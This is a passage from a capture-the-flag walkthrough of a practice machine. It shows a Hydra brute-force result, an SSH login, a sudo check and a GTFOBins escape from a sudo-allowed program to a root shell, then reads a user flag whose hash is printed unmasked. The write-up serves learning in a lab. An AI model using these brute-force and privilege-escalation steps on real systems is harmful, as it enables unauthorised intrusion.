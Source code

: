 ```sh
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-05 21:05
```

After a few seconds we got a password for J***

Password: 9*******1

### ssh login

Now we have the Username and the Password. We can now login into the Target with this credentials. 

```sh
ssh j***@10.10.93.39
```

After login, on this user, there is no User-flag located. So i tried to check other user directorys. But i don't have any permission to do that. 

So i decided to go for root and check then the other directorys. 

First i checked the sudo -l command. And yes we can run a command with sudo rights. 

```sh 
j***@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/l***
```

### Priv-Escalation 

Now lets have a look at GTFO-Bins. If we can escalate the privilage with that application. 
GTFOBins:

```sh
sudo l*** /etc/profile
!/bin/sh
```

Now i have root privilage and we can check for the flags. 

proof that iam root.

```sh
root@brookly_nine_nine:~# whoami
root
```
Now first check for the user-flag, found three user on the target:

```sh
root@brookly_nine_nine:/home# ls
a**  h***  j***
```sh

So i decided to look into the folder for the user flag. Found user flag in User H***

```sh
root@brookly_nine_nine:/home/***# ls
nano.save  user.txt
root@brookly_nine_nine:/home/***# cat user.txt
ee11cbb19052e40b07aac0ca060c23ee
e******************************e
```
